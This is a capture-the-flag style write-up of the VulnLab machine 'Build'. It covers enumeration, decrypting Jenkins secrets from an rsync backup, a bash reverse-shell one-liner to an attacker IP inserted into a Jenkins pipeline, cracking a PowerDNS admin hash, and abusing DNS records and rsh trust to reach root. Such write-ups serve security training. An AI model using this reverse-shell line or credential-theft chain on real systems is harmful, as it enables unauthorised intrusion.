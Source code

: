 ```yaml
---
title: Build
date: 2024-5-24 09:45:47 +07:00
modified: 2024-5-24 09:45:47 +07:00
tags: [ Build, VulnLab, rsync, rsh, docker, records , Writeup]
description: Write Up for VulnLab Machine Build
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Build/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Build</font>

​		12<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Build is an &quot;easy&quot; difficulty machine, Where we have to get credentials from a backup file, access the internal network and add new records in order to bypass the docker container. 

### Difficulty:

`Easy`


# Enumeration
The Nmap scan shows the following ports.
`nmap -p- --min-rate=10000 10.10.67.89`

`nmap -sC -sV -p21,23,80 10.10.67.89 -oA ./nmap/Build`

|Ports|Service
|22| ssh OpenSSH 8.9p1 Ubuntu
|53| Domain PowerDNS
|512| exec
|513| login
|514| shell Netkit rshd
|873| rsync
|3000| ppp?
|3306| mysql
|8081| blackice-icecap

![](https://photos.squarezero.dev/file/abir-images/Build/1.png)

Default creds on ssh didn't work. And MySQL and Rlogin weren't reachable.

![](https://photos.squarezero.dev/file/abir-images/Build/2.png)

Next, I visited Port 3000 and Found Gitea, a self-hosted git service.

![](https://photos.squarezero.dev/file/abir-images/Build/3.png)

After registering to the platform I checked the company repository and found dev repository by buildadm which seems like a Jenkins project.

![](https://photos.squarezero.dev/file/abir-images/Build/4.png)

Next, I check rsync to check the share in port 873 and Found a Jenkins backup file.

`rsync -av rsync://10.10.67.89/backups`
![](https://photos.squarezero.dev/file/abir-images/Build/5.png)

`rsync -av rsync://10.10.67.89/backups .`

![](https://photos.squarezero.dev/file/abir-images/Build/6.png)

# Foothold

In my research of Jenkins, I found out that to decrypt secrets we need master.key, hudson.util.Secret and the XML file containing the secrets. We can also use [Jenkin_offline_decryptor](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt the secret.

[HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

![](https://photos.squarezero.dev/file/abir-images/Build/7.png)

After decrypting the files found in the backup I got the password of buildadm.

![](https://photos.squarezero.dev/file/abir-images/Build/8.png)

Now after logging into the website I can edit the script and get reverse shell after waiting for a little bit.
`sh ''' bash -c 'bash -i >& /dev/tcp/10.8.2.110/1234' '''`

[Jenkins-rce-modifying-pipeline](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-pipeline)

![](https://photos.squarezero.dev/file/abir-images/Build/9.png)

![](https://photos.squarezero.dev/file/abir-images/Build/10.png)


# Docker Escape

Inside the home directory, I found rhosts file which contained some server names. I'm likely inside a docker container. 

![](https://photos.squarezero.dev/file/abir-images/Build/11.png)

Next, I used Chisel in order to connect to internal running services.

![](https://photos.squarezero.dev/file/abir-images/Build/12.png)
![](https://photos.squarezero.dev/file/abir-images/Build/13.png)
![](https://photos.squarezero.dev/file/abir-images/Build/14.png)
![](https://photos.squarezero.dev/file/abir-images/Build/15.png)

I also made sure to change proxychains config file

![](https://photos.squarezero.dev/file/abir-images/Build/16.png)

A lot of the core binary/functions are missing in the docker. I went back to the website and found the internal IP address inside the webhook.

![](https://photos.squarezero.dev/file/abir-images/Build/17.png)


Now we can scan the internal ports.

![](https://photos.squarezero.dev/file/abir-images/Build/18.png)

Default creds can get us access to MySql server.

![](https://photos.squarezero.dev/file/abir-images/Build/19.png)

After enumerating the databases I got the admin hash and more services that are running inside.

```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+ 
| information_schema | 
| mysql              | 
| performance_schema | 
| powerdnsadmin      | 
| sys                | 
+--------------------+ 
5 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SHOW TABLES;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SELECT * FROM user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | $2b$12$s1hK0o7YSc2<...SNIP...>.hsEq | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0.128 sec)    
MariaDB [powerdnsadmin]> SELECT * FROM records;
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
| id | domain_id | name                 | type | content                                                                                  | ttl  | prio | disabled | ordername | auth |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
|  8 |         1 | db.build.vl          | A    | 172.18.0.4                                                                               |   60 |    0 |        0 | NULL      |    1 |
|  9 |         1 | gitea.build.vl       | A    | 172.18.0.2                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 10 |         1 | intern.build.vl      | A    | 172.18.0.1                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 11 |         1 | jenkins.build.vl     | A    | 172.18.0.3                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 12 |         1 | pdns-worker.build.vl | A    | 172.18.0.5                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 13 |         1 | pdns.build.vl        | A    | 172.18.0.6                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 14 |         1 | build.vl             | SOA  | a.misconfigured.dns.server.invalid hostmaster.build.vl 2024050201 10800 3600 604800 3600 | 1500 |    0 |        0 | NULL      |    1 |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
7 rows in set (0.129 sec)
```

I started scanning the newly found IPs.

![](https://photos.squarezero.dev/file/abir-images/Build/20.png)
![](https://photos.squarezero.dev/file/abir-images/Build/21.png)

PowerDNS running on 172.18.0.6 and the login page was exposed as well.

![](https://photos.squarezero.dev/file/abir-images/Build/22.png)

To access the internal website in the browser I had to create a new socks5 config in ForxyProxy.

![](https://photos.squarezero.dev/file/abir-images/Build/23.png)

Now Im able to to access the website's login page.

![](https://photos.squarezero.dev/file/abir-images/Build/24.png)

I used Hashcat to crack the hash and got the admin password.

![](https://photos.squarezero.dev/file/abir-images/Build/25.png)

After logging in with the admin creds I presented with the zone management dashboard of [build.vl]().

![](https://photos.squarezero.dev/file/abir-images/Build/26.png)
![](https://photos.squarezero.dev/file/abir-images/Build/27.png)

I can redirect the internal admin.build.vl to my IP by adding a new record in the zone management. 
Now I will be able to access the main machine instead of the container.

![](https://photos.squarezero.dev/file/abir-images/Build/28.png)

Using Metasploit rlogin_login module I check to see if default cred combinations work and if root with no passwords can log in.

![](https://photos.squarezero.dev/file/abir-images/Build/29.png)

Now I can log in using rsh client.

Note: Kali removed rsh client, In order to install `sudo apt-get install rsh-redone-client`

![](https://photos.squarezero.dev/file/abir-images/Build/30.png)




